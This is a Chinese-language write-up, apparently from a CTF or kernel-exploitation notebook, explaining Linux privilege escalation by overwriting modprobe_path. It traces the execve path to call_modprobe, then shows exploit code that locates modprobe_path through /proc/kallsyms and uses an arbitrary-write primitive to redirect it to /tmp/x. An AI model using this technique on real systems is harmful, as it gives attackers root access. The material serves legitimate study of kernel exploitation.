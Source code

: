   之所以存在`Overwrite modprobe_path`的提权方式，是由于在Linux上执行一个**未知类型**的文件时，`modprobe_path`指向的路径程序将会被执行(root权限)。

  `execve`调用路径：

  1. [do_execve()](https://elixir.bootlin.com/linux/latest/source/fs/exec.c#L1977)
  2. [do_execveat_common()](https://elixir.bootlin.com/linux/latest/source/fs/exec.c#L1855)
  3. [bprm_execve()](https://elixir.bootlin.com/linux/latest/source/fs/exec.c#L1788)
  4. [exec_binprm()](https://elixir.bootlin.com/linux/latest/source/fs/exec.c#L1740)
  5. [search_binary_handler()](https://elixir.bootlin.com/linux/latest/source/fs/exec.c#L1694)
  6. [request_module()](https://elixir.bootlin.com/linux/latest/source/kernel/kmod.c#L124)
  7. [call_modprobe()](https://elixir.bootlin.com/linux/latest/source/kernel/kmod.c#L69)

  最终执行以下代码：

  ```c
  static int call_modprobe(char *module_name, int wait)
  {
      ...
    	argv[0] = modprobe_path;
    	argv[1] = "-q";
    	argv[2] = "--";
    	argv[3] = module_name;
    	argv[4] = NULL;
  
    	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
  					 NULL, free_modprobe_argv, NULL);
      ...
  }
  ```

  `call_usermodehelper`将执行对应的程序，造成提权。

  因此，利用任意地址写，修改`modprobe_path`指向构造的bash文件，在bash文件中构造一个**未知类型文件**，执行该文件，将造成提权。

  

  利用任意地址写修改`modprobe_path`的代码：

  ```c
  /home/pwn # cat /proc/kallsyms | grep modprobe_path
  ffffffffbbe3f960 D modprobe_path
  /home/pwn # more /proc/kallsyms 
  ffffffffbb600000 T startup_64
  
  
  // over write modprobe_path
  long modprobe_path = kernel_addr + 0x83f960;
  
  //fake object
  memset(mem, 0, sizeof(mem));
  *(size_t*)mem = modprobe_path;
  *(size_t*)(mem + 0x8) = 0x20;
  
  write_object(8, mem, 0x10, -0x10);			// pool + 0xf0
  
  puts("[*] fake pool object done!");
  memset(mem, 0, sizeof(mem));
  strcpy(mem, "/tmp/x");
  write_object(0xf0/0x10, mem, 0x10, 0);		// write fake_modprobe
  
  puts("[*] Overwrite modprobe_path done!");
  read_object(0xf0/0x10, mem, 0x10, 0);
  ```
